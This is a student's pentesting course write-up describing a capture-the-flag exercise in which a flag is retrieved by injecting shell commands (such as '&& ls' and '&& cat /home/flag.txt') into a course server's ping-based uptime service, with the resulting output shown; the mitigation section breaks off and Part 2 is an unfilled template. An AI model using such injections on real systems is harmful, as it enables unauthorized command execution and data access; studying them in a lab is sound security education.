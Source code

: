 Writeup 3 - Pentesting I
======

Name: Noah Bathras
Section: 0101

I pledge on my honor that I havie not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Noah Bathras

## Assignment 4 Writeup

### Part 1 (45 pts)
The flag I found was: CMSC389R-{p1ng_as_a_$erv1c3}
The way I obtained the flag was through command line injection, which is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application.  In this case the vulnerable application was Cornerstone Airlines uptime system.
Before I could start the attack I ran the command:

`nc cornerstoneairlines.co 45` 

Which connected me to the uptime application.  Because we were told this was a command line injection project, I tried stringing commands together in the first way I could think of which was using the && operator.  So I ran:

`www.google.com && ls` 

This command assumes that uptime is just taking whatever is enetered into the prompt and adding that to the end of a ping command.  Because this was the case, you can use the && command to string multiple commands together.  In this case I ran both the ping command and the ls command which returned:

`PING wwww.google.com (216.58.204.100) 56 (84) bytes of data. 64 bytes from par10s28-in-f100.net (2167.48.204.100): ucmp_seq=1 ttl=53 time= 77.4 ms 64 bytes from par10s28-in-f100.1e100.net (216.58.204.100): icmp_seq=2 ttl=53 time=77.0 ms --- www.google.com ping statistic --- 2 packets transmitted, 2 received, 0% packet losss, time 1000 ms rtt min/avg/max/mdev = 77.066/77.273/77.480/0.207 ms bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 

Which once you strip out the output from the ping command, represents the contents of the home directory of the server:

`bin boot dev etc  homelib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 

I then made the assumtion that the flag would be in the users home directory because that is where many user based files are stored so I ran another ls command:

`www.google.com && ls /home/`

Which gave me:

`flag.txt`

I then read that file using the command:

`www.google.com && cat /home/flag.txt`

Which then gave me the ouput "Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}" and thus the flag.

I have two suggestions for Fred that he could implement quite easily to prevent this kind of vulnerability.

First, he could implement a system that performs proper input validation

### Part 2 (55 pts)
*Put your writeup >= 200 words here in response to part 2 prompt. Your code for part 2 should be copied into a file in the /writeup directory and pushed there as well*
